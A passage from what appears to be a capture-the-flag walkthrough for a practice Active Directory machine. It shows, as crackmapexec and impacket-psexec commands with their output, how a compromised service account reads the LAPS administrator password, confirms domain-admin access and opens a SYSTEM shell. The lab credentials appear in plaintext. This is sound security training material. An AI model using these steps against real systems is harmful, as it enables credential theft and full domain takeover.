 
## Reading the LAPS Password

Use the credential `timelapse.htb\svc_deploy`:`E3R$Q62^12p7PLlC%KWaxuaV` to read the LAPS password for `dc01.timelapse.htb\Administrator`: `f469u3,.rqn-,l@EE8z05;vW`.

```bash
$ crackmapexec ldap dc01.timelapse.htb -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --kdcHost dc01.timelapse.htb -M laps
LDAP        10.129.157.4    389    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.129.157.4    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
LAPS        10.129.157.4    389    DC01             [*] Getting LAPS Passwords
LAPS        10.129.157.4    389    DC01             Computer: DC01$                Password: f469u3,.rqn-,l@EE8z05;vW
```

Since `dc01.timelapse.htb` is `timelapse.htb`'s domain controller, `dc01.timelapse.htb\Administrator` is also the domain administrator account, `timelapse.htb\Administrator`. Confirm the credential `timelapse.htb\Administrator`:`f469u3,.rqn-,l@EE8z05;vW` works.

```bash
$ crackmapexec smb dc01.timelapse.htb -d timelapse.htb -u Administrator -p 'f469u3,.rqn-,l@EE8z05;vW' --kdcHost dc01.timelapse.htb
SMB         10.129.157.4    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.129.157.4    445    DC01             [+] timelapse.htb\Administrator:f469u3,.rqn-,l@EE8z05;vW (Pwn3d!)
```

Leverage `impacket-psexec` and the domain administrator credential to get an `NT AUTHORITY\SYSTEM` shell on the machine and read the system flag from `C:\Users\TRX\Desktop\root.txt`.

```bash
$ impacket-psexec timelapse.htb/Administrator:'f469u3,.rqn-,l@EE8z05;vW'@dc01.timelapse.htb
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc01.timelapse.htb.....
[*] Found writable share ADMIN$
[*] Uploading file nZwMcNCw.exe
[*] Opening SVCManager on dc01.timelapse.htb.....
[*] Creating service rvTG on dc01.timelapse.htb.....
[*] Starting service rvTG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2686]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> dir C:\Users\TRX\Desktop\root.txt
 Volume in drive C has no label.
 Volume Serial Number is 22CC-AE66

 Directory of C:\Users\TRX\Desktop

03/29/2022  05:31 PM                34 root.txt
               1 File(s)             34 bytes
               0 Dir(s)   4,888,571,904 bytes free
```
